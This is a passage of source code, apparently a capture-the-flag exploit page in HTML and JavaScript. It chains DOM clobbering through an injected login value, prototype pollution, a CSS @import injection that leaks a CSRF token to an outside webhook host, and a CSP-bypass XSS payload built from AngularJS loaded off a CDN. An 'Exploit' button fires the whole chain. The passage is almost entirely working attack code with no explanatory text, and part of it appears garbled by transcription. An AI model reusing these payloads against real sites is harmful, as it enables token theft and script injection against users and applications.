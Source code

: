 ```html
            `;
            w.c.value = token;
            w.n.value = 'test';
            w.d.value = `
            https://www.youtube.com/embed/srcdoc=<script/src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"><\/script><script/src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"><\/script><div/ng-app/ng-csp>{{[].empty.call().alert([].empty.call().document.domain)}}</div>.jpg
            `;
            await sleep(1000);
            w.f.submit();
        }

        function leak_csrf_token() {
            console.log("leak");
            let css_payload = `@import url("https://${webhook}/css?i=${ID}");\n`;
            for (let i = 1; i < 40; ++i) {
                css_payload += `@import url("https://${webhook}/css?i=${ID}&t=${i + 0.6}");\n`;
            }
            let url = URL + '/app.php#msg=' + encodeURIComponent(
                        \x3ch1>Wait \x3c/h1>
                        \x3cstyle>
                                    head, meta{display:block}
                        \x3c/style>
                        \x3cstyle>
                            ${css_payload}	
                        \x3c/style>
                        `
            );
            w.location = url;
            console.log(url);
            let check_interval_id = setInterval(() => {
                fetch(`/now_token?i=${ID}`).then(
                    r => r.text()
                ).then(
                    token => {
                        document.getElementById('token').innerText = `Now Token: ${token}`;
                        if (token.length >= 32) {
                            clearInterval(check_interval_id);
                            console.log(token);
                            xss(token); 
                        }
                    }
                );
            }, 5500);
        }

        function exploit() {
            login(`"><img name=domain `);
            setTimeout(() => {
                prototype_pollution();
                setTimeout(() => {
                    leak_csrf_token();
                }, 4000);
            }, 3000);
        }
    </script>
</head>

<body>
    <h1 id="token">Token: </h1>
    <button onclick="exploit()">Exploit</button>
</body>
```